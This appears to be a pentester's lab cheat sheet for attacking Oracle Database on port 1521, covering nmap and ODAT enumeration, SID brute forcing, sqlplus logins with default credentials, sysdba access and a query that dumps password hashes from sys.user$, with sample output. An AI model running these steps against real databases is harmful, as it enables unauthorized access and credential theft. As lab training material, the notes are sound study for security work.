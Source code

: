 ```yaml
---
title: Oracle DB
tags: [service, enum, database]
service: Oracle
protocol: ['tcp']
port: [1521]
auth: ['password', 'default-creds', 'sid-bruteforce', 'oracle-net']
tools: ['nmap', 'sqlplus', 'odat.py']
notes: "SID brute force, weak creds, DB links, check PUBLIC roles"
---
```


# Oracle Database Server

## Common Attack Paths

### Enumeration
- [ ] Banner grab → `nmap -p1521 --script=oracle* <target>`
- [ ] SID brute force → `odat sidguesser -s <target>`
- [ ] Login test with `sqlplus user/pass@host:1521/sid`

### Attack Paths
- Default creds (scott/tiger, system/manager, etc.)
- SID brute force → unauthorized DB access
- Abuse PUBLIC role grants
- DB links → pivot to other databases

### Auxiliary Notes
- Oracle client tools may be needed for full access.
- Good chance of finding plaintext creds inside DB tables.
- In labs, weak/default accounts are common footholds.

---

## General Enumeration

*Common Commands:*

`sudo nmap -p1521 -sV 10.129.204.235 --open`

*SSID Brute Force:*

`$ sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute`

*ODAT:*

`./odat.py all -s 10.129.204.235`

### SQLplus:

`$ sqlplus scott/tiger@10.129.204.235/XE`

>If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).

`$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig`

*Example:*
```bash
SQL> select table_name from all_tables;

TABLE_NAME
------------------------------
DUAL
SYSTEM_PRIVILEGE_MAP
TABLE_PRIVILEGE_MAP
STMT_AUDIT_OPTION_MAP
AUDIT_ACTIONS
WRR$_REPLAY_CALL_FILTER
HS_BULKLOAD_VIEW_OBJ
HS$_PARALLEL_METADATA
HS_PARTITION_COL_NAME
HS_PARTITION_COL_TYPE`

SQL> select * from user_role_privs;
USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO
```

*Oracle RDBMS - Database Enumeration*

```bash
sqlplus scott/tiger@10.129.204.235/XE as sysdba
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO
USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```


*Oracle RDBMS - Extract Password Hashes:*

```bash
SQL> select name, password from sys.user$;
NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE
NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```
